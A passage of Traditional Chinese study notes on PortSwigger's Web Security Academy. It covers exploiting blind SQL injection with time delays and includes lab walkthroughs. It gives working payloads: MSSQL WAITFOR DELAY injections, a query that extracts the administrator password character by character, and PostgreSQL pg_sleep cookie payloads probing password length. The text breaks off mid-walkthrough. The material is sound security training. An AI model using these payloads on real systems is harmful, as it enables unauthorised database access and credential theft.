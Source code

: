 #### 透過觸發時間延遲來利用盲注 SQL 注入

如果應用程式在執行 SQL 查詢時捕獲資料庫錯誤並優雅地處理這些錯誤，應用程式的回應就不會有任何差異。這意味著先前用於誘導條件錯誤的技術將無法運作。

在這種情況下，通常可以透過根據注入條件是真或假來觸發時間延遲，從而利用盲注 SQL 注入漏洞。由於 SQL 查詢通常由應用程式同步處理，延遲 SQL 查詢的執行也會延遲 HTTP 回應。這讓您可以根據接收 HTTP 回應所需的時間來判斷注入條件的真偽。

觸發時間延遲的技術特定於所使用的資料庫類型。例如，在 Microsoft SQL Server 上，您可以使用以下方式來測試條件並根據表達式是否為真來觸發延遲：

```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

* 第一個輸入不會觸發延遲，因為條件 `1=2` 為假。
* 第二個輸入會觸發 10 秒的延遲，因為條件 `1=1` 為真。

使用這種技術，我們可以透過一次測試一個字元來檢索資料：

```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

::: info Note

在 SQL 查詢中有各種觸發時間延遲的方法，不同的技術適用於不同類型的資料庫。更多詳細資訊，請參閱 [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)。
:::

::: tip Lab: [Blind SQL injection with time delays](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)

1. 題目要求讓 SQL 等待 10 秒，並且在 Cookie 的 `TrackingId` 值存在 SQLi 漏洞。
2. 將 Cookie 改成以下 Payload 完成此 Lab
    ```http
    Cookie: TrackingId=LlFw3Xi6O2cEsigP'||pg_sleep(10)--;
    ```
:::

::: tip Lab: [Blind SQL injection with time delays and information retrieval](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

1. 依據題目說明，Cookie 的 `TrackingId` 存在 SQLi
2. 測試可透過時間等待判斷條件式
    ```http
    Cookie: TrackingId=5sdFcXvFUqhv4j2D'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END--;

    Cookie: TrackingId=5sdFcXvFUqhv4j2D'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END--;
    ```
3. 判斷密碼長度共 20 個字元
    ```http
    Cookie: TrackingId=5sdFcXvFUqhv4j2D'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END+FROM+users--;

    ...

